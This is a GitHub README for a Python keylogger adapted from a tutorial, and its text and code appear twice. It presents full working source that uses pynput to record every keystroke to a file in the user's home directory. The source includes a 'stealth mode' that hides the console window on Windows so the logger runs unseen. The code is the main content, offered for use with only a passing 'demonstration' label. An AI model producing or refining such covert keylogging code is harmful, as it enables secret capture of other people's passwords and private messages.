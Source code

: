 # Basic Keylogger in Python

This repository contains a **basic keylogger** written in Python. The project serves as a simple demonstration of how keylogging can be implemented, along with some optimizations for error handling and special character support.

## Introduction

The original code for this project was adapted from a [GeeksforGeeks tutorial on keyloggers](https://www.geeksforgeeks.org/design-a-keylogger-in-python/). After analyzing the initial implementation, I identified several issues related to:

- Handling errors during the logging process.
- Properly capturing special characters and exceptions (e.g., Enter, Space, Backspace).
- Writing the keystrokes efficiently to a `.txt` file.
- Compatibility with newer Python versions and libraries.

## Optimizations

After reviewing and testing the original code, I made the following improvements:

- **Error Handling**: Improved the exception handling to ensure smooth execution without crashes.
- **Special Key Support**: Correctly mapped special characters like `Enter`, `Space`, `Tab`, and `Backspace`, making the output more readable.
- **Updated Libraries**: Replaced outdated dependencies like `pyHook` with more modern libraries like `pynput`, ensuring compatibility with Python 3.x.
- **Stealth Mode**: The script now runs silently in the background by hiding the console window on Windows systems.
- **File Output**: Keystrokes are appended efficiently to the output file.

## Example Output

Here’s a snapshot of the keylogger running and capturing keystrokes:

![output example](https://github.com/user-attachments/assets/e51a1bb4-287e-46aa-ad66-9eca01be9286)

## Updated Code

Here’s the optimized Python keylogger code:

```python
import os
from pynput import keyboard
import win32console
import win32gui

win = win32console.GetConsoleWindow()
win32gui.ShowWindow(win, 0)

log_file_path = os.path.join(os.path.expanduser("~"), "output.txt")

def press(key):
    try:
        key_str = str(key).replace("'", "")  # Clean up the key string

        # Handle special keys and control characters
        if key == keyboard.Key.enter:
            key_str = '\n'
        elif key == keyboard.Key.space:
            key_str = ' '
        elif key == keyboard.Key.tab:
            key_str = '\t'
        elif key == keyboard.Key.backspace:
            key_str = '[BACKSPACE]'
        elif key == keyboard.Key.esc:
            print("Shutting down keylogger...")
            return False

        with open(log_file_path, 'a') as f:
            f.write(key_str)

    except Exception as e:
        print(f"Error: {e}")

with keyboard.Listener(on_press=press) as listener:
    listener.join()
# Basic Keylogger in Python

This repository contains a **basic keylogger** written in Python. The project serves as a simple demonstration of how keylogging can be implemented, along with some optimizations for error handling and special character support.

## Introduction

The original code for this project was adapted from a [GeeksforGeeks tutorial on keyloggers](https://www.geeksforgeeks.org/design-a-keylogger-in-python/). After analyzing the initial implementation, I identified several issues related to:

- Handling errors during the logging process.
- Properly capturing special characters and exceptions (e.g., Enter, Space, Backspace).
- Writing the keystrokes efficiently to a `.txt` file.
- Compatibility with newer Python versions and libraries.

## Optimizations

After reviewing and testing the original code, I made the following improvements:

- **Error Handling**: Improved the exception handling to ensure smooth execution without crashes.
- **Special Key Support**: Correctly mapped special characters like `Enter`, `Space`, `Tab`, and `Backspace`, making the output more readable.
- **Updated Libraries**: Replaced outdated dependencies like `pyHook` with more modern libraries like `pynput`, ensuring compatibility with Python 3.x.
- **Stealth Mode**: The script now runs silently in the background by hiding the console window on Windows systems.
- **File Output**: Keystrokes are appended efficiently to the output file.


Here’s a snapshot of the keylogger running and capturing keystrokes:

![output example](https://github.com/user-attachments/assets/e51a1bb4-287e-46aa-ad66-9eca01be9286)


Here’s the optimized Python keylogger code:

```python
import os
from pynput import keyboard
import win32console
import win32gui

win = win32console.GetConsoleWindow()
win32gui.ShowWindow(win, 0)

log_file_path = os.path.join(os.path.expanduser("~"), "output.txt")

def press(key):
    try:
        key_str = str(key).replace("'", "")  # Clean up the key string

        if key == keyboard.Key.enter:
            key_str = '\n'
        elif key == keyboard.Key.space:
            key_str = ' '
        elif key == keyboard.Key.tab:
            key_str = '\t'
        elif key == keyboard.Key.backspace:
            key_str = '[BACKSPACE]'
        elif key == keyboard.Key.esc:
            print("Shutting down keylogger...")
            return False

        with open(log_file_path, 'a') as f:
            f.write(key_str)

    except Exception as e:
        print(f"Error: {e}")

with keyboard.Listener(on_press=press) as listener:
    listener.join()
